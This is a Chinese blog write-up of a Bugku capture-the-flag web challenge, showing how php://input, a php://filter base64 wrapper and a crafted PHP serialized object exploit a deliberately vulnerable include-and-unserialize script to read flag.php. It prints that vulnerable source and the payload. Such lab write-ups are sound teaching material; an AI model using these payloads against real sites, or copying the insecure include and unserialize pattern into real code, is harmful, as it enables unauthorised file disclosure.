 <!--yml
category: 未分类
date: 2022-04-26 14:19:57
-->

# bugku【welcome to bugkuctf】题解_大方子的博客-CSDN博客

> 来源：[https://blog.csdn.net/nzjdsds/article/details/89527124](https://blog.csdn.net/nzjdsds/article/details/89527124)

**1.****通过php://input对变量输入内容，让file_get_contents能够读取变量的内容**

**2.****通过php://filter/read=convert.base64-encode/resource=xxx.php得到其他PHP文件的源代码**

**3.****通过反序列化，对echo的魔术方法__tostring()里面的参数进行赋值**

题目地址：[http://120.24.86.145:8005/post/](http://120.24.86.145:8005/post/)

打开题目出现

![](img/912a11edf0ba9f73c3296ca3b28f186c.png)

查看源码，看到提示

![](img/24d4b73a1689ad82591a0bfbe9e7abbc.png)

这里需要我们设置通过txt给$user变量赋值，然后file_get_contents读取$user的内容如果等于welcome to the bugkuctf   即输出hello admin!  并且文件包含$file里面的参数

对txt参数试用php://input，然后参数通过post发送出去即可

![](img/923bddde67ac2ce53e3fbcb607346d87.png)

然后我们在利用这个文件包含漏洞使用

php://filter/read=convert.base64-encode/resource=xxx.php

来进行访问php文件的源码（base64转码后，不转码的话被包含的php代码还是会被网页执行），并通过base64解码查看的方法来查看hint.php和index.php的源代码

![](img/d680b4a56dc67592ec29734844d157a8.png)

```
/*hint.php*/

<?php  

class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
			echo "<br>";
		return ("good");
        }  
    }  
}  
?> 
```

```
/*index.php*/

<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  

if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
    echo "hello friend!<br>";  
    if(preg_match("/flag/",$file)){ 
		echo "ä¸è½ç°å¨å°±ç»ä½ flagå¦";
        exit();  
    }else{  
        include($file);   
        $password = unserialize($password);  
        echo $password;  
    }  
}else{  
    echo "you are not the number of bugku ! ";  
}  

?>  

<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  

if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 --> 
```

这里需要用到反序列化的知识和魔术方法的知识。

在index.php中通过$password = unserialize($password);   进行了反序列化并调用了echo方法输出$password，因为在echo被调用时候前都会先调用__tostring()的魔术方法（在hint.php源码中），然后我们在hint.txt的源码中看到我们需要把$file参数赋值为flag.php即可得到flag。

所以我们需要自己构造序列，来达到对_tostring里面的$file参数赋值

![](img/5cbc34f91d07015adb81c612e586657a.png)

![](img/2f479cc3b739f7625b9461eed0a63936.png)

O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

我们把构造好的序列化输出通过password上传即可得到flag

![](img/2ec692776c8f2cfc1e879d57e7bd8a83.png)